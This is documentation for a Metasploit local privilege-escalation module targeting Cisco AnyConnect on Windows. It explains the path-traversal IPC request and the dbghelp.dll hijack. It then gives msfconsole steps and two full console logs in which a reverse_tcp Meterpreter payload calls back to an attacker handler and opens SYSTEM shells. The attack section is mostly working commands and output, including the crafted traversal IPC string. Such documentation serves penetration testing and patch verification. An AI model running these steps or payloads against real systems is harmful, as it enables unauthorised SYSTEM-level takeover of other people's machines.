 ## Vulnerable Application

The installer component of Cisco AnyConnect Secure Mobility Client for Windows
prior to 4.8.02042 is vulnerable to path traversal and allows local attackers
to create/overwrite files in arbitrary locations as the SYSTEM user.

The attack consists of sending a specially crafted IPC request to the TCP port
62522 on the loopback device, which is exposed by the Cisco AnyConnect Secure
Mobility Agent service. This service will then launch the vulnerable installer
component (`vpndownloader`), which copies itself to an arbitrary location
before being executed as the SYSTEM user. Since `vpndownloader` is also
vulnerable to DLL hijacking, a specially crafted DLL (`dbghelp.dll`) is created
at the same location `vpndownloader` is copied to get code execution as the
SYSTEM user.

This exploit has been successfully tested against Cisco AnyConnect Secure
Mobility Client versions 4.5.04029, 4.5.05030 and 4.7.04056 on Windows 10
version 1909 (x64) and Windows 7 SP1 (x86).

AnyConnect Secure Mobility Client is not publicly available and only customers
with active contracts can download it. For this reason, download links have not
been provided.

## Install the Application

  1. Unzip the AnyConnect package
  2. Open the extracted folder
  3. Run `Setup.exe`
  4. Select `Core & VPN` only (no need to install the full package)
  5. Click `Install Selected`
  6. Confirm you want to install this specific version of Anyconnect (click `OK`)
  7. Accept the EULA (click `Accept`)
  8. `Installation complete` (click `OK`)... enjoy

  Or just run the `anyconnect-win-x.y.zzzzz-core-vpn-predeploy-k9.msi` installer and
  follow the installation steps with the default options.

## Verification Steps

  1. Start msfconsole
  2. Get a session with non-administrative privileges
  3. Do: ```use exploit/windows/local/anyconnect_path_traversal_lpe```
  4. Do: ```set SESSION <SESSION>```
  5. Do: ```set payload windows/meterpreter/reverse_tcp```
  6. Do: ```set LHOST <LHOST>```
  7. Do: ```set LPORT <LPORT>```
  8. Do: ```check```
  9. Do: ```run```
  10. You should get a new session as the SYSTEM user

## Options
### ForceExploit

  Set this to `true` to override the `check` result during exploitation.

## Scenarios

### Windows 10 version 1909 (x64) with AnyConnect 4.7.4056

  ```
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set SESSION 8
  SESSION => 8
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set LHOST 172.16.60.1
  LHOST => 172.16.60.1
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set LPORT 4445
  LPORT => 4445
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set verbose true
  verbose => true
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > check

  [*] Found vpndownloader.exe path: 'C:\Program Files (x86)\Cisco\Cisco AnyConnect Secure Mobility Client\vpndownloader.exe'
  [+] Cisco AnyConnect version 4.7.4056.0.0 appears to be vulnerable
  [*] The target appears to be vulnerable.
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > run

  [*] Started reverse TCP handler on 172.16.60.1:4445
  [*] Found vpndownloader.exe path: 'C:\Program Files (x86)\Cisco\Cisco AnyConnect Secure Mobility Client\vpndownloader.exe'
  [+] Cisco AnyConnect version 4.7.4056.0.0 appears to be vulnerable
  [*] "-ipc" argument needed
  [*] Writing the payload to C:\ProgramData\Cisco\dbghelp.dll
  [*] IPC Command: "CAC-nc-install	-ipc=18201	C:\Program Files (x86)\Cisco\Cisco AnyConnect Secure Mobility Client\vphU\vphU\vphU\vphU\../../../../vpndownloader.exe	-"
  [*] Connecting to the AnyConnect agent on 127.0.0.1:62522
  [*] Send the encoded IPC command (size = 270 bytes)
  [*] Sending stage (176195 bytes) to 172.16.60.202
  [*] Meterpreter session 9 opened (172.16.60.1:4445 -> 172.16.60.202:49765) at 2020-06-19 19:35:29 +0200
  [+] Deleted C:\ProgramData\Cisco\dbghelp.dll
  [+] Deleted C:\ProgramData\Cisco\vpndownloader.exe
  [*] Shutdown the socket

  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  meterpreter > sysinfo
  Computer        : DESKTOP-UUQE0B4
  OS              : Windows 10 (10.0 Build 18363).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  ```

### Windows 7 SP1 (x86) with AnyConnect 4.5.5030

  ```
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set SESSION 8
  SESSION => 8
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set LHOST 172.16.60.1
  LHOST => 172.16.60.1
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set LPORT 4445
  LPORT => 4445
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set verbose true
  verbose => true
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > check

  [*] Found vpndownloader.exe path: 'C:\Program Files\Cisco\Cisco AnyConnect Secure Mobility Client\vpndownloader.exe'
  [+] Cisco AnyConnect version 4.5.5030.0.0 appears to be vulnerable
  [*] The target appears to be vulnerable.
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > run

  [*] Started reverse TCP handler on 172.16.60.1:4445
  [*] Found vpndownloader.exe path: 'C:\Program Files\Cisco\Cisco AnyConnect Secure Mobility Client\vpndownloader.exe'
  [+] Cisco AnyConnect version 4.5.5030.0.0 appears to be vulnerable
  [*] "-ipc" argument not needed
  [*] Writing the payload to C:\ProgramData\Cisco\dbghelp.dll
  [*] IPC Command: "CAC-nc-install	C:\Program Files\Cisco\Cisco AnyConnect Secure Mobility Client\vphU\vphU\vphU\vphU\../../../../vpndownloader.exe	-"
  [*] Connecting to the AnyConnect agent on 127.0.0.1:62522
  [*] Send the encoded IPC command (size = 247 bytes)
  [*] Sending stage (176195 bytes) to 172.16.60.134
  [*] Meterpreter session 10 opened (172.16.60.1:4445 -> 172.16.60.134:49218) at 2020-06-19 19:41:53 +0200
  [+] Deleted C:\ProgramData\Cisco\dbghelp.dll
  [+] Deleted C:\ProgramData\Cisco\vpndownloader.exe
  [*] Shutdown the socket

  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  meterpreter > sysinfo
  Computer        : WIN7-DEV
  OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
  Architecture    : x86
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  ```
